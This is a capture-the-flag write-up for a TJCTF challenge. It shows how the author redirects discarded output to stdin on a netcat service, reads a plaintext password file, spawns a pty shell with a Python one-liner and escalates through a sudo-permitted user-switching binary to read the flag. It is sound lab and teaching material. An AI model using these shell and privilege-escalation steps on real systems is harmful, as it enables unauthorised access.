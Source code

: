 # TTW

So, what a mess this was. Firstly, we started by performing a timing attack. That managed to get us quite a lot of things, but it was annoying having to wait 5 minutes for some results. So lets look for a better option. Looking at the hint, it says to think about I/O. Hmmm, ok. Connecting through netcat, it prints out "Imagine having a usable terminal". Ok, interesting. If we try and enter in a command, it doesn't output anything. Odd. We can probably assume that all our commands are being sent to `/dev/null`, where they just get wiped away. What if we could trick the connection to redirect our commands anywhere, instead of `/dev/null`. If we know that `2>/dev/null` sends any errors there, we can redirect our output to the input as we're connected there, doing `>&0`. Once we've done some enum, we can use the name of the challenge "TT Why" \(sounding like TTY\) to spawn a tty shell, where we can run sudo -l \(as password.txt has problem-user password\) to see that we can run `/usr/bin/chguser` as root. Changing user, navigating to home folder, then to flag, we get flag.txt

```text
>ls -alR ./ >&0
message.txt
password.txt
```

```text
> cat message.txt
Man, I just sure wish I could impersonate other_user
```

```text
> cat password.txt
Password for problem user: 1234qwer
```

```text
> python -c 'import pty; pty.spawn("/bin/bash")' >&0
```

```bash
$ sudo -l
(root) /usr/bin/chguser
```

```bash
$ sudo /usr/bin/chguser other-user
Password: 1234qwer
```

```bash
$ ls -alR 
./flag:
flag.txt
```

```bash
$ cat flag/flag.txt
```

## tjctf{ptys\_sure\_are\_neat}

